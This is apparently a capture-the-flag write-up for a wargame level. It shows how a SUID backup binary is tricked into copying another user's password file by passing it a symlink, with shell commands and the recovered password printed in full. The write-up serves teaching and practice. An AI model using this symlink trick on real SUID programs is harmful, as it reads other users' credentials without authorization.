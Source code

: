 # Level 8

## Vulnerability

Binary backs up password via symlink

## Context

We find a binary ```level08``` and a directory ```backups``` containing ```.log```, all with owner ```level09``` and SUID.
```
level08@OverRide:~$ ls -l
...
drwxrwx---+ 1 level09 users    60 Oct 19  2016 backups
-rwsr-s---+ 1 level09 users 12975 Oct 19  2016 level08
level08@OverRide:~$ ls -la backups/
...
-rwxrwx---+ 1 level09 users     0 Oct 19  2016 .log
```

When run without arguments its prints ```Usage: ./level08 filename```.
```
level08@OverRide:~$ ./level08
Usage: ./level08 filename
```

When run with a file as argument it copies the file to the ```./backups/``` folder.
```
level08@OverRide:~$ chmod 777 .
level08@OverRide:~$ echo "oh hi" > hi
level08@OverRide:~$ ./level08 hi
level08@OverRide:~$ cat backups/hi
oh hi
```

It also creates a log of the backup
```
level08@OverRide:~$ cat backups/.log
LOG: Starting back up: hi
LOG: Finished back up hi
```

## Solution

Can we simply backup the password?
```
level08@OverRide:~$ ./level08 /home/users/level09/.pass
ERROR: Failed to open ./backups//home/users/level09/.pass
```

No, because it doesn't deal with files inside directories (concaternates filepath ```//```), it only works with files in the current directory. So, in the home directory, lets create a symlink to ```/home/users/level09/.pass```. Now we can run the binary on the symlink, and it creates a backup of the password file in the ```backups/``` folder.
```
level08@OverRide:~$ ln -s /home/users/level09/.pass password
level08@OverRide:~$ ./level08 password
level08@OverRide:~$ cat backups/password
fjAwpJNs2vvkFLRebEvAQ2hFZ4uQBWfHRsP62d8S
```

